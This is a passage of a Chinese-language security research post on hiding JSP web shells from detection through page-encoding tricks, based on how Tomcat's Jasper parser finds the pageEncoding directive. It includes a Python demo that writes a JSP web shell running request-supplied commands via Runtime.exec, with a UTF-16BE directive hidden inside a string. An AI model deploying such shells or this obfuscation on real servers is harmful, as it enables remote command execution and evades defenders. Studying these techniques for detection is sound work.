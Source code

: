 #### [任意放置的 jspReader.matches 与%@](#toc_jspreadermatches)

刚刚我们只提到了这两个标签的利用具有编码的局限性，然而如果你再仔细看我们后面提出的两种新的编码利用会发现在函数`getPageEncodingForJspSyntax`中，它通过 while 循环不断往后查找符号`<`，之后在调用`jspReader.matches`寻找`%@`或`jsp:directive.`

```plain
private String getPageEncodingForJspSyntax(JspReader jspReader,
            Mark startMark)
    throws JasperException {

        xxxx

        while (true) {
            if (jspReader.skipUntil("<") == null) {
                break;
            }
                xxxx
            boolean isDirective = jspReader.matches("%@");
            if (isDirective) {
                jspReader.skipSpaces();
            }
            else {
                isDirective = jspReader.matches("jsp:directive.");
            }
            if (!isDirective) {
                continue;
            }

           xxxx
    }
```

因此从这里我们可以看出`<jsp:directive.`或`<%@`并没有要求在某个具体的位置，因此它可以在最前面，可以在中间甚至可以在最后面

这里我们可以验证下，这里我们把它藏在了一个变量当中

[![10.png](assets/1698894037-408bcfc586236cf1b6fcfe5692d1c48a.png)](https://storage.tttang.com/media/attachment/2022/11/23/e5869b44-7d86-4c49-80ed-5dfe89babf76.png)

测试 demo

```plain
a0 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a1 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a2 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test2.jsp","wb") as f:
```